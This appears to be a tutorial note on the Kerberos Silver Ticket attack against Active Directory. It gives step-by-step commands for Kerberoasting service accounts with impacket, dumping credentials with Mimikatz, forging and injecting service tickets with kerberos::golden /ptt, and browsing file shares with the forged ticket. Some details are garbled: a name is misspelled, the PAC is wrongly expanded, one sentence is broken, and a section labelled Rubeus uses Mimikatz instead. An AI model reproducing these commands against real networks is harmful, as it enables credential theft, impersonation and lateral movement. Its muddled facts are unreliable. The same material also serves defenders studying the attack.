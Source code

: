 [Reference: Netwrix Silver Ticket Attack Guide]()

* Benjamin Deply, the creator of **Mimikatz**, introduced the concept of **Silver Tickets** during his Blackhat 2014 session
* In Silver Ticket attack:
  * The attacker Forge's Ticket Granting Service (TGS) tickets for specific services. 
  * This tickets impersonate a legitimate service within an Active Directory domain. 

* Purpose. 
  * Establish persistence on a compromise system. 
  * Maintain access to services and move laterally within the network. 

* Difference from golden ticket attack? 
  * **Golden ticket** : Uses the password hash of the KRBTGT account. 
  * **Silver ticket** : Uses the password hash of specific service account. 


---

### Attack overview. 

* The attacker uses a compromised service account password hash to craft a valid TGS.
* Once created, the silver ticket grants access to the targeted service as a legitimate user. 
* By obtaining an NTLM hash of one service account, attackers can forge tickets for multiple services. 
* Bypasses Active Directory domain controllers, making detection harder. 

---

### Attack steps. 

#### Step 1:  Obtaining NTLM password hash. 

The attacker first needs to extract the NTLM hash of a service account often by **Kerberoasting**

Kerberoasting involves. 

* Requesting service tickets for service accounts. 
* Performing offline cracking for TGS Tickets to extract service account password. 

Example command to extract service account ticket:

```powershell
impacket-GetUserSPNs infosecwarrior.local/administrator:Password123 -dc-ip <IP> -request -outputfile kerberoasting-hash.txt
```

#### Step 2. Forging the TGS ticket (Silver Ticket) 

Using **Mimikatz** the attacker can forge a TGS (Silver Ticket) using a obtained NTLM password hash. 

**Open Mimikatz and Enable Debug Privileges:**

```cmd
mimikatz.exe
```

```cmd
privilege::debug
```

**Extract Logon Passwords:**

```cmd
sekurlsa::logonpasswords
```

* This step can help find cached credentials if needed

**Forge the TGS Ticket using Mimikatz**

The command structure for forging a Silver Ticket is similar to Golden Ticket, but specifies a service account hash.

Required parameters:

* ``/domain`` : Fully Qualified Domain Name (FQDN) of the domain.
* ``/sid`` : Security Identifier(SID) of the domain.
* ``/user`` : User to impersonate
* ``/target`` : target server FQDN
* ``/service`` : Target service name (e.g., cifs, http, etc)
* ``rc4`` : NTLM hash of the service account password

Example Command:

```cmd
kerberos::golden /user:NonExistentUser /domain:domain.com /sid:<SID> /rc4:<hash> /target:FileServer1.domian.com /service:cifs /ptt
```

* ``/ptt`` flag injects the ticket directly into the current session

**Launch a new command prompt with injected ticket**

```cmd
misc::cmd
```

#### Step 3. Accessing A specific Service

Verify the kerberos ticket is present

```cmd
klist
```

Use the ticket to access network resources:

Example:

```powershell
Find-InterestingFile -Path \\Fileserver1.domain.com\S$\shares\
```


---

#### Step 4. Bypassing Active Directory Communication

Since the silver ticket is already forged, no direct communication with Active Directory is needed for authentication. This helps evade network monitoring tools that inspect Kerberos traffic between endpoints and domain controller. 


---

### Step 5: Forging Privileged Account Certificate (PAC)

The also forge the Privileged Account Certificate (PAC) within the server ticket. 

* The PAC contains the authorization information. 
* Forging it an escalate privileges within the network, even impersonating higher privileged accounts. 

---

### Using Rubeus GUI For Silver Attack

#### Targeting A domain controller's Service

In some scenarios, attackers aim to forge Silver Tickets for services on domain controllers

1. Get the NTLM hash of the DC's computer account (e.g. ``dc.infosecwarrior.local``)
2. For the Silver Ticket:

```cmd
mimikatz.exe
```

```cmd
privilege::debug
```

```cmd
kerberos::golden /sid:<SID> /domain:domain.com /ptt /id:1155 /target:FileServer1.domian.com /service:http /rc4:<hash> /user:beningnadmin
```

3. Confirm ticket injection

```cmd
klist
```



